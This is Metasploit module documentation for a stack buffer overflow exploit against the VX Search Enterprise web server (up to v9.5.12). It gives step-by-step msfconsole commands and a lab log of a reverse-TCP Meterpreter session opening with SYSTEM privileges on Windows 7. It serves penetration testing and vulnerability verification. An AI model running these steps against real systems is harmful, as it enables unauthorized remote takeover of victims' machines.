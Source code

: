 ## Vulnerable Application

[VX Search Enterprise](www.vxsearch.com) versions up to v9.5.12 are affected by a stack-based buffer overflow vulnerability which can be leveraged by an attacker to execute arbitrary code in the context of NT AUTHORITY\SYSTEM on the target. The vulnerability is caused by improper bounds checking of the request path in HTTP GET requests sent to the built-in web server. This module has been tested successfully on Windows 7 SP1. The vulnerable application is available for download at [VX Search Enterprise](http://www.vxsearch.com/setups/vxsearchent_setup_v9.5.12.exe).

## Verification Steps
  1. Install a vulnerable VX Search Enterprise
  2. Start `VX Search Enterprise` service
  3. Start `VX Search Enterprise` client application
  4. Navigate to `Tools` > `VX Search Options` > `Server`
  5. Check `Enable Web Server On Port 80` to start the web interface
  6. Start `msfconsole`
  7. Do `use exploit/windows/http/vxsrchs_bof`
  8. Do `set RHOST ip`
  9. Do `check`
  10. Verify the target is vulnerable
  11. Do `set PAYLOAD windows/meterpreter/reverse_tcp`
  12. Do `set LHOST ip`
  13. Do `exploit`
  14. Verify the Meterpreter session is opened

## Scenarios

###VX Search Enterprise v9.5.12 on Windows 7 SP1

```
msf exploit(vxsrchs_bof) > show options 

Module options (exploit/windows/http/vxsrchs_bof):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    172.16.0.18      yes       The target address
   RPORT    80               yes       The target port
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.0.20      yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   VX Search Enterprise v9.5.12


msf exploit(vxsrchs_bof) > exploit 

[*] Started reverse TCP handler on 172.16.0.20:4444 
[*] Sending request...
[*] Sending stage (958324 bytes) to 172.16.0.18
[*] Meterpreter session 1 opened (172.16.0.20:4444 -> 172.16.0.18:49162) at 2017-05-18 16:10:58 +0100

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo 
Computer        : PC-01
OS              : Windows 7 (Build 7600).
Architecture    : x86
System Language : pt_PT
Domain          : LAB
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```
